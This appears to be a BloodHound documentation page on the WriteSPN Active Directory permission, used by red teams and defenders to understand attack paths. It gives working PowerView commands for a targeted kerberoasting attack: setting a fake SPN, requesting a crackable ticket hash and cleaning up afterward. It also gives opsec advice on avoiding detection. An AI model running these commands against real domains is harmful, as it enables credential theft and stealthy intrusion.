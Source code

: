 ---
title: WriteSPN
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


The ability to write directly to the servicePrincipalNames attribute on a user object. Writing to this property gives you the opportunity to perform a targeted kerberoasting attack against that user.

Abuse Info[](#heading-1)
------------------------

A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with Get-DomainSPNTicket.

You may need to authenticate to the Domain Controller as the user with full control over the target user if you are not running a process as that user. To do this in conjunction with Set-DomainObject, first create a PSCredential object (these examples comes from the PowerView help documentation):

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\\dfm.a', $SecPassword)
```

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as the user with full control over the target user.
```
Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```
After running this, you can use Get-DomainSPNTicket as follows:
```
Get-DomainSPNTicket -Credential $Cred harmj0y | fl
```
The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName can be done with the Set-DomainObject command:
```
Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
```
Opsec Considerations[](#heading-2)
----------------------------------

Modifying the servicePrincipalName attribute will not, by default, generate an event on the Domain Controller. Your target may have configured logging on users to generate 5136 events whenever a directory service is modified, but this configuration is very rare.

References[](#heading-3)
------------------------

* [https://blog.harmj0y.net/redteaming/kerberoasting-revisited/](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/)

